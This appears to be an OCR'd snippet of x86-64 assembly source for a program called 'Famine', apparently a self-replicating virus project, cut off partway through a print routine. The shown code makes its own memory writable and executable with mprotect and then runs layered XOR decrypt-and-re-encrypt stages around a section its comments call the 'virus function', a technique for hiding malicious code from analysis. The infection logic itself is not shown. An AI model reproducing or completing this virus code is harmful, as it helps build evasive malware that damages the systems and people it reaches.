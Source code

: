```assembly
%endmacro

_start:
    PUSH_ALL
    
    ; Self-modify memory to be writable
    call make_writable
    
    ; Decrypt first part and jump to main logic
    XOR_DECRYPT famine_encrypted, famine_encrypted_end - famine_encrypted, [rel xor_key_1]
    jmp famine_encrypted

make_writable:
    ; Get current memory page and make it RWX
    mov rax, SYS_mprotect
    mov rdi, _start
    and rdi, ~0xFFF  ; Align to page boundary
    mov rsi, 0x10000 ; Size (64KB should be enough)
    mov rdx, 7       ; PROT_READ | PROT_WRITE | PROT_EXEC
    syscall
    ret

famine_encrypted:
    ; Re-encrypt this section
    XOR_ENCRYPT famine_encrypted, famine_encrypted_end - famine_encrypted, [rel xor_key_1]
    
    ; Decrypt virus function
    XOR_DECRYPT virus_encrypted, virus_encrypted_end - virus_encrypted, [rel xor_key_2]
    
    ; Call main famine logic
    call printf_encrypted
    call famine_main
    
    ; Re-encrypt virus function
    XOR_ENCRYPT virus_encrypted, virus_encrypted_end - virus_encrypted, [rel xor_key_2]
    
    jmp end_encrypted

famine_encrypted_end:

printf_encrypted:
    ; Decrypt printf
    XOR_DECRYPT printf_code, printf_code_end - printf_code, [rel xor_key_3]
    call printf_code
    ; Re-encrypt printf
    XOR_ENCRYPT printf_code, printf_code_end - printf_code, [rel xor_key_3]
    ret

printf_code:
    push rax
    push rcx
    push rsi
    push rdi
    push rdx
    xor rdx, rdx
    .loop:
        lodsb
        inc rdx
        test al, al
        je .done
        jmp .loop
    .done:
        sub rsi, rdx
```